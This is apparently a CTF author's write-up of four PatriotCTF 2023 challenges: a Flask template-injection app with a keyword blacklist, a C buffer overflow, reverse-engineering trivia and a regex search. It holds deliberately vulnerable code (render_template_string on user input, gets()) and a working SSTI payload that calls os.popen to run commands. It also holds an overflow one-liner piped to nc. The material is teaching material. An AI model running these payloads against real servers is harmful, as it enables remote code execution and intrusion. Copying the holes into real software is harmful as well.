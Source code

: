 ```yaml
---
layout: post
title: PatriotCTF 2023 - Writeup
excerpt: "A  writeup for all the challenges I created for PatriotCTF 2023"
categories: [Guides, Learn]
tags: [web, misc, pwn]
---
```

<p align="center">
  <img src="https://competitivecyber.club/assets/patriotctf/img/patriotctf2021-banner-semitransparent.png" alt="PCTF Logo">
</p>
> This site is now archived. Please visit [https://jax.dev/blog](https://jax.dev/blog) for the latest content.
# PatriotCTF 2023
This year, we (Competitive Cyber at Mason) hosted PatriotCTF 2023. This was a CTF that was designed to be a bit more beginner friendly, but still have some challenges that would be fun for more experienced players. I created 4 challenges for this CTF, and I will be writing up the solutions for them here.

## Challenges

### [Web] - Pick Your Starter
#### Description
> No one seems to be able to guess my favorite animal... Can you?
#### Solution
This is a decently simple SSTI challenge with a blacklist, here is the source code for the `app.py` file:

```python
from flask import Flask, render_template, render_template_string

app = Flask(__name__)
app.static_folder = 'static'

starter_pokemon = {
    "charmander" : {
        "name": "Charmander",
        "type": "Fire",
        "abilities": ["Blaze", "Solar Power"],
        "height": "0.6m",
        "weight": "8.5 kg",
        "description": "Charmander is a Fire-type Pokémon known for its burning tail flame.",
        "picture": "https://assets.pokemon.com/assets/cms2/img/pokedex/full/004.png"
    },
    "bulbasaur" : {
        "name": "Bulbasaur",
        "type": "Grass/Poison",
        "abilities": ["Overgrow", "Chlorophyll"],
        "height": "0.7m",
        "weight": "6.9 kg",
        "description": "Bulbasaur is a dual-type Grass/Poison Pokémon known for the plant bulb on its back.",
        "picture": "https://archives.bulbagarden.net/media/upload/f/fb/0001Bulbasaur.png"
    },
    "squirtle" : {
        "name": "Squirtle",
        "type": "Water",
        "abilities": ["Torrent", "Rain Dish"],
        "height": "0.5m",
        "weight": "9.0 kg",
        "description": "Squirtle is a Water-type Pokémon known for its water cannons on its back.",
        "picture": "https://static.pokemonpets.com/images/monsters-images-800-800/7-Squirtle.webp"
    },
}

def blacklist(string):
    block = ["config", "update", "builtins", "\"", "'", "`", "|", " ", "[", "]", "+", "-"]
    
    for item in block:
        if item in string:
            return True
    return False


@app.route('/')
def index():
    render = render_template('index.html')
    return render_template_string(render)


@app.route('/<pokemon>')
def detail(pokemon):
    pokemon = pokemon.lower()
    try:
        render = render_template('pokemon_name.html', data=starter_pokemon[pokemon])
        return render_template_string(render)
    except:
        if blacklist(pokemon):
            return render_template('error.html')
            
        render = render_template('404.html', pokemon=pokemon)
        return render_template_string(render)

if __name__ == '__main__':
    app.run(debug=True)
```
You can see that there is a blacklist function that will block any input that contains any of the characters in the `block` list. However, if you look at the blacklist function, you can see that it does not block the `.` character. We can use this to our advantage to get RCE.

To do this, we can use the following payload: `http://chal.pctf.competitivecyber.club:5555/%7B%7Burl_for.__globals__.os.__dict__.popen(request.args.file).read()%7D%7D?file=cat%20../flag.txt`. This will allow us to execute the `cat /flag.txt` command on the server. We can then use this to read the flag file: `PCTF(wHOS7H47PoKEmoN)`.
![](https://i.imgur.com/D0TW1fJ.png)

### [pwn] - guessinggame
#### Description
> No one seems to be able to guess my favorite animal... Can you?
#### Solution
This is a pretty simple pwn challenge, you are given a binary that asks you to guess the favorite animal of the creator. If you guess correctly, you oddly still don't get the flag. Here's why:

Looking at the original source for the binary:
```c
#include <stdio.h>
#include <string.h>

void outputFlag() {
    char flag[35];
    FILE* pctfFlag = fopen("flag.txt", "r");

    if (pctfFlag == NULL) {
        printf("Unable to find flag.txt :(");
    } else {
        fgets(flag, 35, pctfFlag);
        printf("%s", flag);
    }
    fclose(pctfFlag);
}

int check(){
    char input[300];
    char favAnimal[8] = "Giraffe";
    int priv = 0;
    
    printf("Input guess: ");
    gets(input);

    if(strcmp(input, favAnimal)) {
        printf("ERRR! Wrong!\n");
    }
    else {
        printf("That's not my favorite animal... I promise!\n");
    }
    if(priv) {
        printf("I wasn't able to trick you...\n");
        outputFlag();
    }
}

int main(){
    printf("Hello there, friend! Can you guess my favorite animal?\n");
    check();
    return 0;
}
```
We can see that the check function is where the comparison is made, and if we guess correctly, we get the message `That's not my favorite animal... I promise!`. However, if we look at the check function, we can see that there is a variable called `priv` that is set to 0. If we can somehow set this to 1, we will get the flag.

To do this, we can use a buffer overflow. If we input a string that is longer than 300 characters, we will overflow the buffer and overwrite the value of `priv`. We can use python to do this for us:
```python
python3 -c "print('pctf'*76)" | nc chal.pctf.competitivecyber.club 9999
```
![](https://i.imgur.com/3bSFFYQ.png)
### [rev] - Wing_it
#### Description
> I'm just gonna wing it
Unfortunately, due to some technical issues we had to take this challenge down at the beginning of the CTF and were not able to get it back up in time. I will be releasing the challenge and solution here.

#### Solution
You are provided a binary that you must reverse called wing_it. 

You were asked to answer four trivia questions, the last of which did not fully give you the question needing you to reverse the binary in order to get it. 

The correct solution for each question is as follows:
1. the Concorde!
2. duh it's the Vin Fiz Flyer
3. AMeriCan aiRLiNEs
4. 100298


### [misc] - Uh Oh!
#### Description
> Uh Oh! While trying to add passwords to my wordlist, I accidentally added my own phone number! Can you tell me what line it's on?
> https://en.wikipedia.org/wiki/North_American_Numbering_Plan#Modern_plan
> Format: PCTF{linenumber_phonenumonlynumbers}


#### Solution
This was a pretty simple regex challenge, if you take a look at the wikipedia link provided, you can see that we are spefically looking for a number in the format `(NPA) NXX-XXXX`. 
![](https://i.imgur.com/vXBS24j.png)
If you adjust your regex accordingly, and run it against the provided wordlist, you will get the flag `PCTF{7731484_4043037283}`. 

I used the regex: `^[(][0-9]{3}[)][[:space:]][0-9]{3}[-][0-9]{4,6}$`
![](https://i.imgur.com/IOH7kXp.png)

Final command: `grep -E "^[(][0-9]{3}[)][[:space:]][0-9]{3}[-][0-9]{4,6}$" -n rockyou.txt`

## Conclusion
This was a really fun CTF to create, and I hope you enjoyed playing it! If you have any questions, feel free to reach out to me on any of my socials.

